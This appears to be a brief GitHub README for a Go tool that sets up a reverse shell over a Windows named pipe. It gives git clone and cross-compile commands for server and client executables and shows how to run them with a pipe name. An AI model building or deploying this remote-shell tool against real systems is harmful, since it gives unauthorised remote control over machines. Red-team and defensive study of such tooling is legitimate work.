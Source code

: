 ## reverse shell over named pipe

### compile under linux/bash
`git clone https://github.com/r0lh/named_pipe_reverse_shell`

`cd named_pipe_reverse_shell`

`GOOS=windows GOARCH=amd64 go build ./cmd/server.go`

`GOOS=windows GOARCH=amd64 go build ./cmd/client.go`

### usage
`.\server.exe \\.\pipe\yourpipename`

`.\client.exe \\.\pipe\yourpipename`

![named_pipe](https://github.com/user-attachments/assets/9add9efb-1a02-4835-a170-9e41f986da7a)
